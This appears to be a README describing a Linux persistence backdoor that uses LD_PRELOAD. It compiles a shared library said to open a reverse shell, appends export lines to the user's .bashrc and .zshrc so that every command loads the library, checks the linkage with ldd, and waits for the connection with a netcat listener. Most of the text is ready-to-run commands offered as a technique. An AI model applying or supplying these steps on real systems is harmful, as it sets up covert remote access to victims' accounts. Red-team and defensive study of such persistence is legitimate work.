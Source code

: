 # LD_PRELOAD

```
The dynamic linker can be run either indirectly by running some
dynamically linked program or shared object (in which case no
command-line options to the dynamic linker can be passed and, in
the ELF case, the dynamic linker which is stored in the .interp
section of the program is executed) or directly by running...

https://man7.org/linux/man-pages/man8/ld.so.8.html
```

The `LD_PRELOAD` directive can be used for linking an external library to a main program.
Declaring an `LD_PRELOAD` in `.bashrc` or `.zshrc` allows to let any binary, run by a user, to execute the code
contained in such shared object.

So first, compile `compile.c`, which opens a socket for a reverse shell, must be compiled using the following options:

`gcc -fPIC --shared compile.c -o ~/.sshared`

Let's assume it's saved under `~` home directory.

Then let's update both `.bashrc` and `.zshrc` with

```bash
[ -f "$HOME/.bashrc" ] && echo 'export LD_PRELOAD=$HOME/.sshared' >> "$HOME/.bashrc"
[ -f "$HOME/.zshrc" ] && echo 'export LD_PRELOAD=$HOME/.sshared' >> "$HOME/.zshrc"
```

From now on, opening a terminal and executing the program will run the shared library containing the backdoor.

Let's check the linkage after these steps:

`ldd /usr/bin/id`

```
 linux-vdso.so.1 (0x00007ffcb11e4000)
 /home/virgula/.sshared (0x0000727261bce000)
 libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x0000727261b88000)
 libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x0000727261992000)
 libpcre2-8.so.0 => /lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00007272618f4000)
 /lib64/ld-linux-x86-64.so.2 (0x0000727261be3000)
```

Open a netcat to notice reverse shell connection attempt whenever a command is executed.

`nc -lvnp 1234`